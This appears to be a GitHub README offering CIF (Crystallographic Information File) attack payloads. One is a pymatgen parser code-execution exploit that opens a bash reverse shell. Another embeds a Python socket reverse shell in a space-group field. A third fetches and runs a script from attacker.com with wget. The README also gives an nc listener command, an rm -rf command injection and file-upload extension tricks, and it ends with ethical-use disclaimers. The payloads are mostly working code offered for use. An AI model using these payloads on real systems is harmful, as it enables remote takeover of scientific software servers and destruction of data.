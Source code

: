 # CIF (Crystallographic Information File) Payloads
----

- **CIF File with Embedded Python Reverse Shell: 1**
```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/192.168.10.15/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

- **CIF File with Embedded Python Reverse Shell: 2**
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M ';python3 -c "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'192.168.1.100\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\'/bin/bash\')" #'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

- **Malicious CIF File:**
```cif
data_test
_audit_creation_method '$(wget http://attacker.com/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh)'
loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
C 0.1 0.2 0.3
```
Start the listener:

```bash
nc -lnvp 4444 # Start the listener on the attacker side
```


- **Command injection:** If the backend parses the CIF file and interacts with a shell or external commands, inject malicious values
```cif
_cmd_field $(rm -rf /tmp)
```

- **Invalid Data Types:** Break expected numeric or textual fields.
```cif
_numeric_field not_a_number
```

- **File Upload Exploitation:**
```plaintext
malicious.cif%00.png
malicious.png#.cif
```

## ⚠️ Warning: Ethical Use Only!
> This repository contains CIF (Crystallographic Information File) payloads designed for security research and ethical hacking purposes only.

## Use Responsibly

> These payloads are intended only for educational purposes, penetration testing, and demonstrating potential vulnerabilities, with the explicit permission of the system owner.
> Unauthorized use of these payloads on systems without proper authorization is illegal and may result in severe consequences, including legal actions.

## Disclaimer
> The author of this repository does not take any responsibility for any misuse or damages caused by these payloads. By using these payloads, you agree to use them at your own risk and to ensure all activities are compliant with local, state, and federal laws.

> ⚠️ Proceed only if you are authorized and understand the ethical implications. ⚠️
